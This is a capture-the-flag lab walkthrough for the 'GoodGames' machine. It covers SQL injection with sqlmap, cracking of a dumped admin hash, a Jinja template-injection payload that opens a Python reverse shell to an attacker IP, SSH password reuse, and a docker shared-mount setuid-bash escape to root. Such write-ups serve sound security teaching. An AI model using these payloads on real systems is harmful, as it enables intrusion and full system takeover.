








# GoodGames
## OS: Linux
## Difficulty: Easy


## Enumeration:

I'll start with a port scan:
```bash
# TCP ports
nmap -sC -sV -p- 10.129.57.169 -oN nmap.txt

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-23 15:17 EET
Nmap scan report for 10.129.57.169
Host is up (0.049s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2

#UDP ports
sudo nmap -sU -sV -p- 10.129.57.169
```

Let's take a look at the HTTP server.



I'll use dirsearch to find more pages.

```bash
dirsearch -u http://10.129.57.169/

[15:52:22] Starting:
[15:52:32] 200 -   43KB - /blog
[15:52:38] 200 -    9KB - /login
[15:52:39] 302 -  208B  - /logout  ->  http://10.129.57.169/
[15:52:43] 200 -    9KB - /profile   
[15:52:44] 403 -  278B  - /server-status/   
[15:52:44] 403 -  278B  - /server-status
[15:52:45] 200 -   33KB - /signup
```

I'll make a dummy account.

```
phm@gmail.com
phm
phm1234
```

On the "/blog" page we can find 3 different username.
```
Hitman
Witch Murder
Wolfenstein
```

We can also access the page of one of these blogs. 
```
http://10.129.57.169/blog/1
```

We can see that the admin is active in the comment section.



With what we found now we can try 3 things:
- test the login page for SQLi
- An XSS payload
- Path traversal through this endpoint


I'll open up BurpSuite to do this.



And it worked. We now have an admin session cookie. We now have access to an admin panel. But we'll need to add the subdomain we are redirected to, to our hosts file.





Trying to access index.html we get this:



And we can access the "/login" page.

We know there is an SQLi vulnerability on the goodgames.htb page. I'll extract credentials using sqlmap.

After playing around with it, I found what I was looking for.
```bash
sqlmap -r req.txt --dbs --batch -D main -T user --dump

[2 entries]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | phm@gmail.com       | phm    | c63e3d7f3faa8826f9f4dc8a7711eb1c |
+----+---------------------+--------+----------------------------------+
```

I used CrackStation to find the password.

```
admin : superadministrator
```

We can use these credentials for the subdomain we found earlier.



## Exploitation:

Playing around the pages I found an SSTI vulnerability in the settings page.



We can use this to get a shell on the target.

Payload:
```python3
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.65\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}
```

On host:
```bash
nc -lnvp 6666
```

We got a shell.
```bash
nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.57.169 57458
/bin/sh: 0: can't access tty; job control turned off
# 
```

I found a folder of a user named "augustus" on the target. That folder contains the user flag.
```bash
cd /home
ls
cd augustus
cat user.txt
```

### We got the user flag!

## Privilege Escalation:

A quick "whoami" reveals something interesting.
```bash
whoami
root

python -c 'import pty; pty.spawn("/bin/bash")' #upgrade shell
```

I didn't find the root flag. This is most likely a docker container. We have a possible user on the host machine called august. 

Running "ls -la" confirms this.

```bash
root@3a453ab39d3d:~# ls -la /
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
```

I'll try to connect to the host via SSH.

```bash
ssh augustus@172.19.0.1 
superadministrator
```

And it worked. Going to the home directory of augustus we can see the same user.txt file. There might be a mirror effect on this directory. 
I'll start another shell with the docker and test it.

```bash
# On docker
touch test

# On docker host
augustus@GoodGames:~$ ls
test  user.txt
```


Well, I was right. There is a connection between the 2 directories. And the bitmask of the file remains the same.
```bash
augustus@GoodGames:~$ ls -la
ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Jan 24 11:47 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r--r-- 1 root     root        0 Jan 24 11:47 test
-rw-r----- 1 root     augustus   33 Jan 23 21:46 user.txt
```


So we can copy a shell in the container, run the binary on the host and get a shell as the root user.

```bash
# On docker:
cp /bin/bash /home/augustus
chmod 4777 bash

# On docker host:
./bash -p # don't drop the privileges
./bash: error while loading shared libraries: libtinfo.so.5: cannot open shared object file: No such file or directory
```

So the bash binary on the docker is old. We can try copying the bash binary from the host to the target folder, changing it's owner and running it.

```bash
# On docker host:
cp /bin/bash .

# On docker:
chown root:root bash
chmod 4777 bash

# On docker host:
./bash -p

bash-5.1# whoami
whoami
root

```

We can now get the root flag.
```bash
cat /root/root.txt
```

### We got the root flag!
